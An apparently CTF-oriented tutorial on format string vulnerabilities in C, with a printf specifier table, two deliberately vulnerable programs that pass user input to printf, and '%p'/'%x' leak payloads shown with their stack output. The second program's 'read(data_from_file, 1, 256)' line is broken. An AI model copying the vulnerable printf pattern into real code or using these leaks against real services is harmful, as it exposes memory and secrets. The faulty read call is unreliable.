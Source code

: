 # Format String Vulnerability

A **format string vulnerability** is a bug where user input is passed as the format argument to `printf`, `scanf`, or another function in that family.

The format argument has many different specifiers which could allow an attacker to leak data if they control the format argument to `printf`. Since `printf` and similar are variadic functions, they will continue popping data off of the stack according to the format.

# Common Parameters
| Format Specifier | Description                                   | Passed as   |
|------------------|-----------------------------------------------|-------------|
| `%%`             | Percent character (literal `%`)               | Reference   |
| `%p`             | External representation of a pointer          | Reference   |
| `%d`             | Signed decimal integer                        | Value       |
| `%c`             | Single character                              | Value       |
| `%u`             | Unsigned decimal integer                      | Value       |
| `%x`             | Unsigned hexadecimal integer (lowercase)      | Value       |
| `%s`             | String                                         | Reference   |
| `%n`             | Writes number of characters output so far     | Reference   |
  

# Example #1

In the example below, we can see that we have control over the `password` variable, which will be printed by `printf`.

We could use `%p` to write out the pointer addresses.

```c
#include <stdio.h>
#include <unistd.h>

int main(){

	int flag = 0xcafebabe;
	char password[256] = {0};
	
	read(0, password, 256);
	printf(password);
	printf("End of main!\n");
	
	return 0;
}
```

But as seen in the **output** below, since the flag is stored on the stack it will print it regardless.

```
%p %p %p %p %p %p %p %p %p

0x7fff120059d0 0x100 0x76d74d5147e2 0x76d74d61bf10 0x76d74d6c6040 0x2 0xcafebabe0000000e 0x7025207025207025 0x2520702520702520

End of main!
```

  

# Example #2

This is a code to simulate the Hack The Box [racecar](https://app.hackthebox.com/challenges/racecar) challenge.

In short, the code:
1. Loads *flag.txt* as `file`
2. Puts contents of `file` into `data_from_file`
3. Puts `data_from_file` onto the stack -- `buffer`
4. Asks for an input -- `password`
5. Outputs are shown and the program halts

In the actual challenge the flag was in the file and its contents were put onto the stack.
For this example *flag.txt* contains "*AAAAAA*"

```c
#include <stdio.h>

int main() {
	char password[256] = {0};
	char data_from_file[256];
	char buffer[44];
	
	FILE* file = fopen("flag.txt", "r");
	
	if (file == NULL) {
		perror("Failed to open file");
		return 1;
	}
	
	read(data_from_file, 1, 256);
	fgets(buffer, 44, file);
	
	read(0, password, 256);
	printf(password);

	printf("End of main!\n");
	return 0;
}
```

  
To leak the offset of `buffer` we did the following:
```
%x %x %x %x %x %x %x %x %x %x

7d6a3130 100 507147e2 3 1bb8b480 0 1bb8b2a0 41414141 0 ff00
```

We could now read the *A*s in hex format *(0x41)* and can note that they start at offset 8.
*The challenge was a bit more complex, this is just for demonstration purposes*

  

# References

- [https://owasp.org/www-community/attacks/Format_string_attack](https://owasp.org/www-community/attacks/Format_string_attack)

- [https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/)